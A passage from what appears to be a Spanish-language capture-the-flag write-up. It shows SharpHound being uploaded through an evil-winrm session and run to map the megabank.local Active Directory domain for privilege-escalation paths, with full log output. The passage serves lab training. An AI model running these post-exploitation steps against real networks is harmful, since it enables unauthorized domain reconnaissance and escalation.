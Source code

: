 ## Bloodhound
Vamos a subir el `SharpHound` para recolectar información sobre el dominio y detectar formas de escalar privilegios en el dominio con `bloodhound`

Subimos el `SharpHound` a través de la función `upload` de `evil-winrm`
```console
*Evil-WinRM* PS C:\ProgramData> upload SharpHound.exe
                                        
Info: Uploading /home/pointedsec/Desktop/resolute/content/SharpHound.exe to C:\ProgramData\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!

```

Ahora podemos lanzar la herramienta.
```console
*Evil-WinRM* PS C:\ProgramData> .\SharpHound.exe -c All -d megabank.local
2024-09-07T11:11:55.2405987-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-09-07T11:11:55.4124823-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-07T11:11:55.4437225-07:00|INFORMATION|Initializing SharpHound at 11:11 AM on 9/7/2024
2024-09-07T11:11:55.5843471-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for megabank.local : Resolute.megabank.local
2024-09-07T11:12:07.7250013-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-07T11:12:07.8968782-07:00|INFORMATION|Beginning LDAP search for megabank.local
2024-09-07T11:12:07.9593752-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-09-07T11:12:07.9593752-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-09-07T11:12:38.7876233-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 34 MB RAM
2024-09-07T11:13:08.8033238-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-09-07T11:13:14.2720152-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-09-07T11:13:14.3032660-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-09-07T11:13:14.4595214-07:00|INFORMATION|Status: 123 objects finished (+123 1.863636)/s -- Using 42 MB RAM
2024-09-07T11:13:14.4595214-07:00|INFORMATION|Enumeration finished in 00:01:06.5750879
2024-09-07T11:13:14.5532817-07:00|INFORMATION|Saving cache with stats: 80 ID to type mappings.
 80 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-09-07T11:13:14.5688900-07:00|INFORMATION|SharpHound Enumeration Completed at 11:13 AM on 9/7/2024! Happy Graphing!
```
